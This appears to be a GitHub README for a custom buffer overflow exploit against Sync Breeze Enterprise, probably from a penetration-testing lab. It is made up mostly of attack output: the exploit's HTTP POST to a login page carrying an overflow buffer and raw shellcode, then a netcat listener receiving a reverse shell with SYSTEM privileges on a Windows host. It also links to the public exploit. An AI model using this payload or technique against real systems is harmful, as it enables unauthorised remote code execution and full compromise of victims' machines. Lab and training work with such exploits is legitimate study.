


# Buffer_overflow_Sync_Breeze_enterprise
Custom Buffer overflow exploit with fuzzer in python

```
┌──(kali㉿kali)-[~/…/myclients/Windows/client/BufferOverflow]
└─$ python exploit.py
Exploitation 

Sending evil buffer...
('\n Buffer size : ', 1136)
POST /login HTTP/1.1
Host: 192.168.207.10
User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101Firefox/52.0
Accept:text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://10.11.0.22/login
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 1156

username=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�CCCC1Ƀ�������^�v��������{���b�D��ô`V����
                                                                                     $��5l(�e��$RK�TfV���׏ߕ��ۅ:U��@�p�����Ң{G�\��ëd���?��� �W����`\��8������� �ߊ]����۱��ofY�����w�ۿl���lQS����-Wлl��lQ�T�ԫT�ԃ�[
                                                           �F��DCs\����b����S�Np�{>�S���݌���t^��{>l���g�Sĵn�ݽ�n�,@�����U��P�ҽR�ҥR�׽l�HԂlQb��ҭ���ノ��(d�.��M�.ѯ��
           q�?����{>&password=A


Done!
           
```
Reverse shell:

```
┌──(kali㉿kali)-[~/…/myclients/Windows/client/BufferOverflow]
└─$ nc -nlvp 80
listening on [any] 80 ...
connect to [192.168.119.207] from (UNKNOWN) [192.168.207.10] 49678
Microsoft Windows [Version 10.0.16299.15]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>whoami /all
whoami /all

USER INFORMATION
----------------

User Name           SID     
=================== ========
nt authority\system S-1-5-18


GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes                                        
====================================== ================ ============ ==================================================
BUILTIN\Administrators                 Alias            S-1-5-32-544 Enabled by default, Enabled group, Group owner    
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
Mandatory Label\System Mandatory Level Label            S-1-16-16384             
```




If you are looking for the public exploit:
https://www.exploit-db.com/exploits/42928


